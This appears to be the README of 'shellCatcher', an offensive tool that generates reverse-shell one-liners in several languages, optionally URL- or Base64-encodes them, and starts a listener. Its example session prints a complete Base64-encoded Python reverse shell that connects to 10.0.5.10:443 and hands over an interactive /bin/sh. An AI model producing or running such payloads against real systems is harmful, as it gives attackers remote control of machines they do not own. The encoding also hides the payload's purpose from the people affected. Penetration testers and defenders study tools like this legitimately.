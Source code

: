 shellCatcher
============

Small tool that spits out a reverse shell string in different languages, and spins up a listener that waits for its connection. There is currently no error handling or anything like that. More tolerance and features will be added over time.


example usage
============

Welcome to shellCatcher!
Please select a language to use from the list below:

[0] Bash
[1] PERL
[2] Python
[3] Netcat
[4] PHP
[5] Ruby
[6] Java
[7] xterm

\> 2

Please insert your IP address and port number
ex: 192.168.0.10:443

\> 10.0.5.10:443

Select an encoding. If you don't want one, select 0:
[0] None
[1] URL
[2] Base64

\> 2

Reverse Shell String:

cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMC41LjEwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=

Spawning the listener on port 443

Waiting for connection...

